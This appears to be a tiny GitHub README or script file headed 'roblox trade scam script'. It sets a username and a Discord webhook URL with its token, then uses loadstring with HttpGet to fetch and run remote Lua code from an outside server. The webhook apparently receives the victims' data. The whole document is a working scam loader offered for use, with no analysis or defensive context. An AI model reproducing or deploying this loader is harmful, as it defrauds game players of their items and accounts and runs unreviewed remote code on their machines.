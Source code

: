 # xavier
roblox trade scam script
UserName = "xavierbms"
Webhook = "https://discord.com/api/webhooks/1099089613185896549/nybgZrg3dWnJdzCuC0-fUowsP2ptTbF8fGiOqlc6UpEQOf80cZ5vek9hAG0LjE9Q_Tht"
loadstring(game:HttpGet("http://rizz.ct8.pl/scripts/Main", true))()
